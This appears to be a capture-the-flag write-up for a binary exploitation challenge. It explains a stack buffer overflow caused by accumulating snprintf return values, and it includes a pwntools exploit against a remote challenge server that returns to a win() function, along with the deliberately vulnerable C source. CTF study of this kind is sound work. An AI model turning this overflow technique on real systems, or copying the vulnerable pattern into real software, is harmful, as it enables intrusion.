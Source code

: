 # Adventure Chain

### Author

[rudyerudite](https://twitter.com/rudyerudite)

### Description

Kathleen is faced with a very naive looking code which keeps all you secrets and never lets anyone know. Try figuring out lies here!

### Solution

Before getting our hands dirty on the binary, we execute a initial `checksec chall` which tells us about the mitigations enabled on the binary.

`Canary                       : No
NX                            : Yes
PIE                           : No
Fortify                       : No
RelRO                         : Partial
`

We see that canary is disabled here which might give us a possible buffer overflow if we are able to get a primitive. Another thing, PIE is disbaled as well, so that means the addresses of all user defined functions and global variables are going to be same on each run. So let's look at the disassmebly of the binary. We see that the binary lets us input 20 characters. We can do this atmost 2 times. Sound uninteresting at this point?

Let's have a closer look at what the main is upto (mind that `count`,`buffer1`,`ch` and `pos` are global variables not in the snippet for brevity): 

```C
void main()
{   char buffer[8];
	initialize();
     puts("\nWelcome! A lonely mute program is all I am...");
	puts("\nWould you like to talk to me? (y/n)");
	scanf("%c",&ch[1]);

	while(ch[1]=='y' && count<2)
	{
		puts("Say something...");
		getchar();
		read(0,buffer1,20);
		pos += snprintf(buffer,1,"%s",buffer1);
		puts("\nWould you like to continue talking to me? (y/n)");
		scanf("%c",&ch[1]);
		
		count+=1;
	}

	printf("%d Any bidding words?\n",pos);
	getchar();
	read(0,buffer,pos);
	return;
}
```

Okay, depending on the return value of snprintf we can read `pos` bytes on our buffer. As we earlier saw that the `Canary` is disbaled on stack, thus if `pos` > `sizeof(buffer)` we can cause a stack buffer overflow! Now that's something worth noting. Moving on, is it possible to fulfill that condition? Let's have a closer look at the `snprintf` function. 

On a quick lookup by doing `man sprintf` on your terminal, you'll find that `snprintf returns the number of characters (excluding the terminating null byte) which would have been written to the final string if enough space had been available.` --> Does that strike anything?

So well `sprintf` here is writing 1 byte from `buffer1` to `buffer`. If I read 20 bytes into `buffer1` could you think about the return value of the function `snprintf` ? Leaving that as an exercise to the reader.

By using the trick of the return value of `sprintf` (added each time to `pos`), we can increment `pos` to a value such that `pos` > `sizeof(buffer)`. Doing this would give us a buffer overflow. We have another interesting function which we didn't check before, but this one is not getting called anywhere in our whole program:

```C
void win()
{
    char flag[50]; FILE *ptr;
    ptr = fopen("flag.txt","r");
    if(ptr == NULL)
   {
      printf("Error!");   
      exit(1);             
   }
   fgets(flag,50, (FILE*)ptr);
   printf("%s\n",flag);
   exit(0);
}
```

We initially saw that PIE is disabled on the binary, thus we just have to overwrite the return address of `main()` to the `win()` function in order to call '`win()` after `main()` function returns. What does that do now? As we can see that calling `win()` would help us read the `flag.txt` file, this is supposed to be our final destination. So exploit the overflow to overwrite the return address and run away with the flag!

### Exploit

```python
from pwn import *

#p = process("./chall")
p = remote("34.72.218.129",2222)
p.sendline("y")
p.sendline("a"*19)
p.sendline("y")
p.sendline("b"*19)
p.sendline("n")
#gdb.attach(p)
payload = 'a'*24 + p64(0x400921)
p.sendline(payload)
p.interactive()
```
### Source Code

```C
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>
#include<string.h>

int count=0, pos=0;
char buffer1[20];
char ch[2];
void initialize()
{
	setvbuf(stdin,0,2,0);
	setvbuf(stdout,0,2,0);
	setvbuf(stderr,0,2,0);
	alarm(30);
}

void win()
{
    char flag[50]; FILE *ptr;
    ptr = fopen("flag.txt","r");
    if(ptr == NULL)
   {
      printf("Error!");   
      exit(1);             
   }
   fgets(flag,50, (FILE*)ptr);
   printf("%s\n",flag);
   exit(0);
}

void main()
{
	
	
	char buffer[8];
	
	initialize();

	puts("\nWelcome! A lonely mute program is all I am...");
	puts("\nWould you like to talk to me? (y/n)");
	scanf("%c",&ch[1]);

	while(ch[1]=='y' && count<2)
	{
		puts("Say something...");
		getchar();
		read(0,buffer1,20);
		pos += snprintf(buffer,1,"%s",buffer1);
		puts("\nWould you like to continue talking to me? (y/n)");
		scanf("%c",&ch[1]);
		
		count+=1;
	}

	printf("%d Any bidding words?\n",pos);
	getchar();
	read(0,buffer,pos);
	return;
}
```
